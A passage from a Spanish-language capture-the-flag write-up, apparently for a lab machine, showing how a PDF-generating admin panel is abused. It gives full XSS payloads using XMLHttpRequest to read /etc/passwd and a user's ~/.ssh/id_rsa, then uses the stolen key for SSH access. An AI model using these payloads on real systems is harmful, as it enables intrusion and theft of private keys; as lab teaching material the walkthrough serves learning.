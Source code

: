 Si nos connectamos en una nueva pagina web al panel normal (el donde podiamos crear una nueva collection) y creamos una nuevamente
con

```bash
title: test
author: test
un fichero txt en el file upload
```

Podemos ver que esta collection a sido creada y aparece en el pdf de la collections de panel de administracion y nos reporta la data title y author.

Buscamos en internet si existe un html 2 pdf exploit.

### html2pdf exploit {-}

Buscamos por 
```bash
 html 2 pdf exploit 
```
, no vemos gran cosa. Cambiamos la busqueda por vulnerabilidades conocidas como RCE LFI XSS
y encontramos un un [Local File Read via XSS in Dynamically Generated PDF](https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/)

Aqui vemos que con la inclusion de un 
```bash
 <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script> 
```

podriamos ejecutar un LFI.

Si lo ponemos en el input Title y author, podemos ver el 
```bash
 /etc/passwd 
```
 de la maquina en el pdf generado.

En este caso vemos que hay un usuario 
```bash
 Reader 
```
 que tiene una bash. Miramos si podemos leer su 
```bash
 id_rsa 
```



```bash
 <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script> 
```


Ya podemos ver su llave privada y connectarnos por ssh.
## Vuln exploit & Gaining Access {-}
